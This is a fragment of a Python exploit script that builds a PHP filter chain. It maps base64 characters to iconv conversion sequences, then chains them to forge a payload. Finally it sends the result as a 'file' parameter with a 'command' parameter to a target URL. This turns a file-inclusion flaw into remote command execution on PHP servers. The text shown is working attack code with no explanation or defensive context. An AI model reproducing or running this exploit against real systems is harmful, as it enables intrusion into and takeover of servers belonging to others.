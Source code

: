   ```
      'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
      'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
      'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
      '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
      'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
      'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
      'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
      'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
      '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
      '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
  }
  
  
  # generate some garbage base64
  filters = "convert.iconv.UTF8.CSISO2022KR|"
  filters += "convert.base64-encode|"
  # make sure to get rid of any equal signs in both the string we just generated and the rest of the file
  filters += "convert.iconv.UTF8.UTF7|"
  
  
  for c in base64_payload[::-1]:
          filters += conversions[c] + "|"
          # decode and reencode to get rid of everything that isn't valid base64
          filters += "convert.base64-decode|"
          filters += "convert.base64-encode|"
          # get rid of equal signs
          filters += "convert.iconv.UTF8.UTF7|"
  
  filters += "convert.base64-decode"
  
  final_payload = f"php://filter/{filters}/resource={file_to_use}"
  
  r = requests.get(url, params={
      "0": command,
      "file": final_payload
  })
  
  print(r.text)
  ```
